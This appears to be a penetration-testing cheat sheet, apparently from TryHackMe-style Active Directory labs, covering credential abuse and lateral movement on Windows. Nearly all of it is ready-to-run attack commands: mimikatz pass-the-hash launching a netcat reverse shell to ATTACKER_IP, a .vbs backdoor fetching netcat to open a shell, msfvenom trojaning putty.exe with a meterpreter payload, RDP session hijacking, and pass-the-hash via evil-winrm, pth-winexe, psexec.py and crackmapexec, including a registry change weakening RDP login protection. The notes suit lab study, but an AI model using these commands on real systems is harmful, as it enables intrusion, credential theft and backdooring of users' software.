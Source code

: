 ```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
# Depending on the encryption keys (RC4 is NTLM)
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com (/rc4|/aes128|/aes256):96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
{% endcode %}

## Abusing User Behaviour

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Writable Shares
If we, as attackers, have write permissions over scripts or executables on network shares, we can backdoor them to force users to execute any payload we want.
# Backdooring .vbs Scripts
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
# Backdooring .exe Files
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
# RDP hijacking (if SYSTEM privileges on elevated prompt on Windows Server 2016 and earlier)
PsExec64.exe -s cmd.exe
query user # better to choose disconnect (Disc.) to not log out actual users
tscon 3 /dest:rdp-tcp#6 # tscon $ID /dest:$OUR_CURRENT_SESSIONNAME, probably the only one which appears
```
{% endcode %}

## Pass the hash

{% code overflow="wrap" fullWidth="true" %}
```bash
# Pass the Hash (authenticate using user's NTLM hash)
https://github.com/byt3bl33d3r/pth-toolkit
https://juggernaut-sec.com/pass-the-hash-attacks/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts

smbclient \\\\$IP\\$share -U Administrator --pw-nt-hash 7a5740...4b
evil-winrm -i 10.10.3.99 -u Administrator -H e4876a80a723612986d7609aa5eb
# if we happened to have our scripts located at /opt/scripts, we could include them in the connection with:
evil-winrm -u USERNAME  -p PASSWORD -i IP -s /opt/scripts
# Good folder /usr/share/powershell-empire/data/module_source/situational_awareness/network
evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM]
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

pth-winexe -U $DOMAIN/$USER%$NTLM_HASH //$IP $COMMAND # full hash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.222 cmd

psexec.py Administrator@10.11.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f381153b435b5

# Checking Pass The Hash works
crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth
# If there is prevention to log in as Administrator via RDP w/o password, execute this command
crackmapexec smb 172.16.1.200 -u Administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami 